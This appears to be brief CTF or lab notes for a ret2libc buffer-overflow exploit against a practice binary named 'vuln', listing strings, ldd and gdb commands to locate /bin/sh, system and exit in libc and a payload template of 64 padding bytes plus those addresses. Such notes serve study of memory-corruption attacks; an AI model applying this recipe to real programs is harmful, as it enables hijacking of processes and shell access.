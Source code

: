 # Find offset of /bin/sh

```
 strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"

```
# Find address of /bin/sh

```

ldd vuln to get entry adress of libc
bishAddress = libc + offset

```
# Find address of system and exit

```
gdb vuln
b main
r
p system
p exit

```

# Payload

```
payload = 64 * 'A' + address_of_system + address_of_exit + address_of_binsh

```